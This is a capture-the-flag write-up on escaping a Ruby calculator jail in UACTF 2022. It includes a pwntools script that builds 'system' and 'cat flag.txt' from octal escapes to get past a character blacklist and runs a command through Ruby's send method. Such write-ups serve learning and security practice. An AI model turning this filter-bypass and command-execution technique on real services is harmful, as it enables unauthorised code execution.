 # Intro
Hello again. 

This past weekend, me and my teammates at [zh3r0](https://ctftime.org/team/116018) competed in [UACTF 2022](https://ctftime.org/event/1709). The ctf was pretty good, and had a wide variety of challenges. One of these challenges was `Evil eval`. And oh boy was it evil.

## The challenge
This was in the pwn category. We are given a netcat command, and when we log in we are greeted by:

```
------------------------------------------
| UNCOMPLICATED COMMAND-LINE CALCULATOR! |
------------------------------------------

Example Usage:
(1 + 2) * 3
> (1 + 2) * 3 = 9
```

We can type equations - and also commands into the calculator as long as they are < 8 unique bytes long. I've tried some challenges like this before, so I was immediately thinking "it must be a pyjail challenge!". It was a jail challenge, so I was half right, but the assumption about python is something i wasted *HOURS* of my time on.

## Limitations
I previously mentioned that there can only be 8 unique chars per command/equation. There was another restriction I didn't mention:

```
asd
> asd = One or more of the following characters have been blocked: 'f', 'l', 'a', 'g', '.', 't', 'x', 't', and/or '`'
```

This limitation left me pretty stumped for the majority of the CTF, there are not functions (in python) that can be used to execute code that dont contain a blacklisted character (`eval`, `exec`). In addition to this it was possible to open a file as `open` doesnt trigger the blacklist, however it was impossible to read the file since `read` does.

So no progress was made here for quite a while.

# Revelations
On the last day of the CTF, my teammate [`_wh1t3r0se_`](https://ctftime.org/user/73367) made an interesting observation, the challenge was not python, but ruby.

This didnt click with me at first, as I dont know any ruby and was so far into the pyjail rabbit hole that I hadn't even taken the time to consider the chance that I wasnt seeing python. Indeed, if you look up any error message from the session, you would find it to be ruby.

This opened up some new possibilities for exploiting the jail.

## Exploitation

I had been googling `python pyjail execute string as function` when I found `eval` and `exec`. So it only made sense to do the same for ruby. 

I ended up finding [this](https://stackoverflow.com/questions/1407451/calling-a-method-from-a-string-with-the-methods-name-in-ruby) stack overflow post, and from that found the `send` method. Looking at the [documentation](https://ruby-doc.org/core-3.1.2/Object.html#method-i-send) we can see that the format is `send(method, args)`. This was perfect.

Heres my script:

```python

from pwn import *

context.log_level = "debug"


def convert_str_to_oct_list(string):
    return [oct(ord(x))[2:] for x in string]


def sendstr(str0, name):
    print(str0)
    for x in str0:
        p.sendlineafter("> ", name + f"+=\"\\{x}\"")
        print(p.recvline())

def main():
    global p
    str0 = convert_str_to_oct_list("system")
    str1 = convert_str_to_oct_list("cat flag.txt")
    p = remote("challenges.uactf.com.au", 30000)
    
    p.recvuntil(">")
    p.sendline("e=\"\"")
    sendstr(str0, "e")
    p.sendline("E=\"\"")
    sendstr(str1, "E")

    p.sendline("send(e,E)")
    p.interactive()
if __name__ == "__main__":
    main()
```

Theres one last thing to explain. We were able to get around the filters by first creating an empty string, and then adding the escaped octal representations of the characters into the string one at a time. Hexadecimal representations couldnt be used because of the `x` character, so this was the next logical step.

I also had some wierd issues with the variable names, but `e` and `E` worked fine. 

(Thanks to [finch](https://ctftime.org/user/78954) for cleaning up the string -> octal conversion).

# Closing remarks
This is without a doubt the shortest writeup I have ever made - maybe I won't ramble for as long from now on. Probably not.

When I lay out the pieces, this challenge seems easy - and it was easy, really. The main obstacle was the filter, and bypassing it via string conversions. However I added another hurdle when I went full tunnel vision down the `pyjail` rabbit hole.

Some (me included) would argue that this challenge isn't really pwn - however what this challenge and real pwn challenges have in common is that they become infinitely harder when you add more obstacles, especially when those obstacles are your own stubbornness.

If theres anything to take from this, its probably not to focus on any one thing too much, and make sure to challenge any assumptions you have, whether you do pwn, or whatever category this challenge fits in.

Cya.

